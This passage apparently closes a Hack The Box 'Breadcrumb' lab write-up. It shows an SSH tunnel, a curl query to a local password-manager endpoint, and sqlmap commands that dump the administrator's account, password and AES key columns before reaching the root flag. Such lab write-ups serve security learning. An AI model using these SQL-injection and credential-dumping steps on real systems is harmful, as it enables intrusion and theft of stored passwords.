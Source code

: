 ```terminal
$ ssh -l juliette 10.10.10.228 -L 1234:127.0.0.1:1234
```

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-tunneling-test.png" | relative_url }})

cURL command with method reveal AES_Key.

```terminal
$ curl 'http://passmanager.htb:1234/index.php?method=select&username=administrator&table=passwords'
```
![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-injectionsql-1.png" | relative_url }})


### SQL Injection in Password Manager
***

Show all columns of table passwords in database bread:

```terminal
$ sqlmap 'http://passmanager.htb:1234/index.php?method=select&username=administrator&table=passwords' --columns
```

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-injectionsql-2.png" | relative_url }})

Dump values of columns accounts, aes_key, id and password for administrator:

```terminal
$ sqlmap 'http://passmanager.htb:1234/index.php?method=select&username=administrator&table=passwords' -C account,aes_key,id,password --dump
```

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-injectionsql-3.png" | relative_url }})


![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-decrypt.png" | relative_url }})


![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-flag-root.png" | relative_url }})

***

# **<center>Trophy</center>**

> **--**
>
> --



